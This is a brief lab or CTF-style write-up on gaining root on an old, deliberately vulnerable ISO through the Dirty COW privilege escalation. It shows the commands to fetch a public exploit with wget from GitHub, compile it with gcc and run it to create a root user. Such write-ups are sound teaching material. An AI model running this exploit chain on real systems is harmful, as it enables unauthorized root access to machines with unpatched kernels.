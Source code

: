 # Writeup 2 - Unclean Bovine (DirtyCOW)

The iso for this project is quite old, its vulnerable to the Dirty COW exploit, a privilege escalation vulnerability that exploits a race condition on the copy-on-write mechanism of older kernels (<4.8.3)

## Preparation

To use this exploit, we first need a shell. we follow the "intended solution" till we have access to a user that can compile and run a C file.  
Here we used user `laurie`.

We just use a [known dirty cow script](https://github.com/firefart/dirtycow) that sets a new user `firefart` as root.

## Running the Exploit

to use this exploit this vulnerability we must compile the copied code as indicated in the exploit's repo:
```
$> wget https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
--2025-04-10 21:22:19--  https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4815 (4.7K) [text/plain]
Saving to: ‘dirty.c’

dirty.c               100%[=========================>]   4.70K  --.-KB/s    in 0.001s

2025-04-10 21:22:19 (6.90 MB/s) - ‘dirty.c’ saved [4815/4815]
$> gcc -pthread dirty.c -o dirty -lcrypt
```

w  can then run the executable and wait... And after some time, the user firefart is created and we can connect as it, obtaining a root shell - **Congrats us, ~~that was pure talent!!!!~~**
